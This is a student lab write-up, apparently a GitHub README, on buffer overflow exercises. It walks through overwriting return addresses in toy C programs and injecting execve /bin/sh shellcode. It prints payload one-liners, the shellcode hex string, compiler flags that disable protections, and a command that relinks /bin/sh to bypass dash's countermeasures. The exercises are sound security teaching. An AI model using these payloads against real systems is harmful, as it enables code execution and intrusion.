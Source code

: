 # 21110057, Đỗ Đức Mạnh
# Lab 1: Buffer Over Flow#
# Task 1 Stack smashing by memory overwritten
## 1.1. bof1.c
To make a buffer overflow attack in bof1.c program, we see the program has array with size of 200 inside vuln function, we can visualize as model below:

![45](https://github.com/domanh10/Lab1/assets/161590352/04f00f36-5764-4515-9a71-ddd6dcdbd98a)

Build the program using gcc -g bof1.c -o bof1.o and -fno-stack-protection to disable stack protection and set boundary = 2:

![1 1](https://github.com/domanh10/Lab1/assets/161590352/3758cced-2682-4e4f-9a95-3b767f18f0de)

Go to gdp of 'bof1.out' with the command `gdb bof1.out -q`, and find the address of the **'selectFunc'** function with the command `disas secretFunc`. So we can get the address of function **'selectFunc'** as follows '0x0804846b'

![1 2](https://github.com/domanh10/Lab1/assets/161590352/39ec14b4-e1c9-4693-9c63-6bfff53c6536)

Run the program with the 204 letter 'a' plus the address of the **'selectFunc'** function with the following command `(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out`

![1 3](https://github.com/domanh10/Lab1/assets/161590352/b6e0454a-3b7d-4b8f-a113-a7256294089a)

![1 3](https://github.com/domanh10/Lab1/assets/161590352/62f1fbdb-a63a-4450-b4e9-82b8a29a7de4)

->>***The terminal showing the 'Congratulation!' line from the 'secretFunc' function which means this method worked***

## 1.2. bof2.c
In this program, we need to make buffer overflow to spill the data into ‘check’ variable to make it equals to `0xdeadbeef` to satisfy the condition.
First, we visualize the Stack frame:

![1 5](https://github.com/domanh10/Lab1/assets/161590352/5ce76396-c618-4283-85fb-9e5e6f814897)

Build the program using gcc -g bof2.c -o bof2.out and -fno-stack-protection to disable stack protection and set boundary = 2: `gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`. Go to gdp of 'bof2.out' with the command `gdb bof2.out -q`, and find the address of the **'main'** function with the command `disas main`. So we can get the address of function **'main'** 

![2 1](https://github.com/domanh10/Lab1/assets/161590352/cdc01c65-91e6-4209-be63-98920bcae3ce)

If you run the program with the 40 letter 'a' plus an address other than the following address `0xdeadbeef` with the following command `(python -c "print('a'*40+'\xef\xbe\xad\xdf')") | ./bof2.out`

![2 4](https://github.com/domanh10/Lab1/assets/161590352/3eb30dff-ce06-4e83-afb2-c4109b5163c5)

->>***The terminal showing the 'You are on the right way!' line from the 'main' function which means that you need to use `0xdeadbeef`***

Run the program with the 40 letter 'a' plus the address of the `0xdeadbeef` with the following command `(python -c "print('a'*40+'\xef\xbe\xad\xde')") | ./bof2.out`

![2 2](https://github.com/domanh10/Lab1/assets/161590352/a965f551-677f-4d4c-b701-171e402878b2)

->>***The terminal showing the 'Yeah! You win!' line from the 'main' function which means this method worked***

## 1.3. bof3.c
This is the stack frame of program, because main function doesn’t have input argument. Our target is execute the shell function.

![3 1](https://github.com/domanh10/Lab1/assets/161590352/8fce09b3-776f-4e3a-8420-0037d96715b4)

Build the program using gcc -g bof3.c -o bof3.out and -fno-stack-protection to disable stack protection and set boundary = 2: `gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`. Go to gdp of 'bof3.out' with the command `gdb bof2.out -q`, and find the address of the **'shell'** function with the command `disas shell`. So we can get the address of function **'shell'**. Find the address of the **'sup'** function with the command `disas sup`. So we can get the address of function **'sup'**.

![3 1](https://github.com/domanh10/Lab1/assets/161590352/69ae7ccc-3dff-47e3-bf48-657585ed29f0)

Run the program with the 128 letter 'a' plus the address of the **'shell'** function with the following command `(python -c "print('a'*128+'\x6e\x84\x04\x08')") | ./bof3.out`

Run the program with the 128 letter 'a' plus the address of the **'sup'** function with the following command `(python -c "print('a'*128+'\x6b\x84\x04\x08')") | ./bof3.out`

![3 2](https://github.com/domanh10/Lab1/assets/161590352/2c349975-b870-4fd4-927f-c039304409ef)

->>***The terminal showing the 'Congrat!' line from the 'shell' function which means this method worked***

->>***The terminal showing the 'You made it! The shell() function is executed' line from the 'sup' function which means this method worked***

# Task 2 Code injection 
## 2.1. Preparing shell code
Write shellcode program in assembly language (sh.asm), compile with nasm (sh.o) then link with ld to generate executable file (sh)

![4 1](https://github.com/domanh10/Lab1/assets/161590352/89f6e632-52a9-428d-866d-17df552e64ee)

Run the following script to get the hex string of shellcode: `$> for i in $(objdump -d shell |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo` 

![4 2](https://github.com/domanh10/Lab1/assets/161590352/bfc39cff-3c8f-4e4d-8a3f-a2dcbe4a7824)

--> hex string generated: `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80`

## 2.2. Preparing payload
Compile program with options to defeat stack protecting mechanism and code execution on stack: `$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04: `sudo ln -sf /bin/zsh /bin/sh`

![4 3](https://github.com/domanh10/Lab1/assets/161590352/f5ca29cb-2c7c-4a2c-b771-33dc38ba7061)

## 2.3. Code injection 
Load vuln.out in gdb: `$> gdb vuln.out`

![4 7](https://github.com/domanh10/Lab1/assets/161590352/8c4a1514-33a4-4443-9d9f-ec2bd99d5b3d)

Set break point after strcpy instruction

Run program in gdb with injecting argument: `(gdb-peda)r $(python -c "print(<injecting shellcode along with padding bytes>+'\xff\xff\xff\xff')")`

Watch the stack memory from esp (stack top): `(gdb-peda) x/80xb $esp`

![4 4](https://github.com/domanh10/Lab1/assets/161590352/1e427664-f3dd-4225-8eae-789b3188db64)

![4 5](https://github.com/domanh10/Lab1/assets/161590352/57f15e2f-818e-4342-9462-955f58d62009)

![4 8](https://github.com/domanh10/Lab1/assets/161590352/019ac752-c583-447e-bb4f-e14adcfe0dba)

Identify the return address while watching out the stack, then replace `\xff\xff\xff\xff` with the value of esp: `set *<address of return address> = <address of esp>`

Continue executing program, you should now in the new bash shell: `(gdb-peda) continue`

![4 9](https://github.com/domanh10/Lab1/assets/161590352/d3c45658-5259-4f63-9508-6513ae9c0412)

->>`$_` <-- you are in the new bash.



















